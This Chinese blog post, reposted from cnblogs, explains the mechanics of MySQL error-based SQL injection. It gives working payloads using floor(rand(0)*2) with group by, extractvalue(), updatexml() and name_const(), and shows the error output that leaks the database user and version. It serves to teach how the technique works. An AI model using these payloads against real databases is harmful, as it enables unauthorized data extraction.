


### 简介
转自 https://www.cnblogs.com/Triomphe/p/9489639.html

这段时间学习SQL盲注中的报错注入,发现语句就是那么两句,但是一直不知道报错原因,所以看着别人的帖子学习一番,小本本记下来

### (1) count() , rand() , group by

1.报错语句构造

　　先直接上两个网上经常使用的报错语句,主要分析第一条,第二条是简化后的


```
　select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;  

　select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2));
```

[](imgs/Websql_20200614003824_008.png)

可以看出两个句子的原理都是相同的

2.rand() floor()函数

　　我们现在从最里向外分析整条语句.先从floor(rand(0)*2) 开始

- rand()函数会随机产生[0,1)之间的浮点数.
- rand()函数可以自己设置随机种子,即rand(N),这个时候产生的随机数是伪随机数.也就是我们多次生成的是相同的.
- floor(N)函数会返回一个小于或等于传入参数N的最大整数(**相当于截断小数部分)**

　　先来看一下rand()不设置随机种子的情况.

[](imgs/Websql_20200614003824_003.png)　　

　　可以看出来,连续执行两次的结果是完全不同的.再来看一下设置随机种子后,rand函数的值

[](imgs/Websql_20200614003824_009.png)

　　自己可以试一试,多次重复的值是相同的,而这里也是整个报错语句的关键.先加下前6位是 **011011**

3 concat()函数 0x3a的作用 别名a

- concat()函数将字符串会将字符串拼接起来
- 0x3a的ASCII码是 : 主要是用来分隔其他字符串,让人可以快速定位重要信息
- 在括号后面有一个a是别名的意思,是as a的简写.它是前面语句的另一个名字,主要是为了减少重复出现复杂语句

[](imgs/Websql_20200614003824_006.png)

4. group by 与 count()

- group by a 会根据a的规则对数据进行分组,而分组的时候,mysql会建立一个临时空表进行分组.
- count()聚散函数,会进行计数

5.报错分析

 　报错的原因是因为**rand()函数在查询的时候会执行一次,插入的时候还会执行一次.**这就是整个语句报错的关键

前面说过floor(rand(0)*2) 前六位是**011011**. **group by a先建立一个空表,用于分组.**

`select count(*),(concat(floor(rand(0)*2),'@',(select version())))x from users group by x`

| floor(rand(0)*2) | version | 拼接     |
| ---------------- | ------- | -------- |
| 0                | 5.7.19  | 0@5.7.19 |
| 1                | 5.7.19  | 1@5.7.19 |
| 1                | 5.7.19  | 1@5.7.19 |
| 0                | 5.7.19  | 0@5.7.19 |
| 1                | 5.7.19  | 1@5.7.19 |

先是空白表

| **count(\*)** | **x** |
| ------------- | ----- |
|               |       |

扫描原始表的第一项时，第一次计算，floor(rand(0)*2)是0，拼接成0@5.7.19的数据项

结果没有，它插入到上表中，

但在插入之前会进行第二次计算，这时变为1@5.7.19，所以虚拟表变成了下面这样

| **count(\*)** | **x**        |
| ------------- | ------------ |
| **1**         | **1@5.7.19** |

扫描第二项，x=1，拼接'1@5.7.19', 存在，不需要进行第二次计算，直接插入，得到下表：

| **count(\*)** | **x**        |
| ------------- | ------------ |
| **2**         | **1@5.7.19** |

扫描第三项，第一次计算x==‘0@5.7.19’，虚拟表中找不到，

第二次计算，这时x=='1@5.7.19'插入，虚拟表中已经存在以1@5.7.19为主键的数据项了，插入失败，然后就报错了！


---


然后进行分组查询,第一次rand()执行,查询的结果是

0,因为是空表所以插入这条,而插入的时候rand()又执行了一次,所以表中的结果就是

[](imgs/Websql_20200614003824_000.png)

第一次执行完,接着执行rand()的值为1,因为表中存在,所以加1,表中结果成为

[](imgs/Websql_20200614003824_005.png)

到了第三次执行rand()是值为0,因为表中不存在所以要插入新的数据,**这次插入rand()再次执行,所以插入的又是1.而表中已经存在1了**

**此时插入因为重复出现同一个key,就会出现报错 重复出现key.而报错中会说明那个key有问题,我们的key中结合了想要了解的字符串root@localhost**

**这样就实现了报错注入,拿到了自己想要的数据**

**[](imgs/Websql_20200614003824_007.png)**

这就是整个报错注入的原理了,rand(),floor() group by 函数缺一不可.

### (2) XML函数之ExtractValue()

1.报错语句构造


```
select extractvalue(1,concat(0x7e,user(),0x7e))
```


```
1 mysql> select extractvalue(1,concat(0x7e,user(),0x7e));
2 ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```

2.ExtractValue()函数

- ExtractValue(xml_str , Xpath) 函数,使用Xpath表示法从XML格式的字符串中提取一个值
- ExtractValue()函数中任意一个参数为NULL,返回值都是NULL.


```
1 mysql> select extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>','/a/c');
2 +-----------------------------------------------------------------------+
3 | extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>','/a/c') |
4 +-----------------------------------------------------------------------+
5 | accc                                                                  |
6 +-----------------------------------------------------------------------+
```


```
1 mysql> select extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>',NULL);
2 +---------------------------------------------------------------------+
3 | extractvalue('<a><b>abbb</b><c>accc<b>acbbbb</b></c>aaaa</a>',NULL) |
4 +---------------------------------------------------------------------+
5 | NULL                                                                |
6 +---------------------------------------------------------------------+
```

3.报错分析

　　上面说明了正常情况下的extractvalue函数使用方法,Xpath语法可以自行google.但是如果我们构造了

**不符合规定的Xpath,MySQL就会报语法错误,并显示XPath的内容.**

　　**但是什么样子的字符串会引发报错呢.**

**[](imgs/Websql_20200614003824_001.png)**

　　发现报错竟然消失了一部分,前面的root不见了.**因为XPATH语法报错的是那些特殊字符,遇到特殊字符就会报错.**

**所以0x7e,ASCII码是~ 就会从头开始报错.**

[](imgs/Websql_20200614003824_004.png)

　　可以看出来报错会从**遇到的第一个特殊字符处开始报错**.直到结束.但是**报错的长度是有限制的**.如下图应该出现

字符串最后并没全部显示出来,而是后面的字符串被截断了.

[](imgs/Websql_20200614003824_002.png)

### (3)XML函数之updatexml()

1.报错语句


```
select updatexml(1,concat(0x7e,version(),0x7e),1) 
```


```
mysql> select updatexml(1,concat(0x7e,version(),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~5.7.19~'
```

2.updatexml()函数

　　updatexml(xml,xpath,new_xml),此函数使用nex_xml根据xpath来替换xml字符串中特定的值.和上面的道理是相同的,都是通过xpath语法

错误来报错.原来也和上面的相同.不再具体描述.

### (4) name_const() 重复报错(不推荐) 

1.报错语句构造


```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;
```


```
1 mysql> select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;
2 ERROR 1060 (42S21): Duplicate column name '5.7.19'
```

2.name_const()函数　

　　name_const(name,value)函数会用传入的参数返回一列结果集.**传入的参数必须是常量**


```
1 mysql> SELECT NAME_CONST('myname', 14);
2 +--------+
3 | myname |
4 +--------+
5 |     14 |
6 +--------+
```

　　如果传入的参数不是常量,就会报错.


```
1 mysql> select name_const(database(),1);
2 ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```

3.报错分析

 　报错原因就是因为两列列名相同,外面选择时候报错,说重复列.


```
1 mysql> select name_const(version(),1),name_const(version(),1);
2 +--------+--------+
3 | 5.7.19 | 5.7.19 |
4 +--------+--------+
5 |      1 |      1 |
6 +--------+--------+
7 1 row in set (0.00 sec)
```

　　然而个人认为这个报错注入很鸡肋,没有多大用,尝试了一下只用version()函数可以使用,其他可能因为不是常量的原因.

name_const()函数会报参数错误的错误,不会回显想要的信息.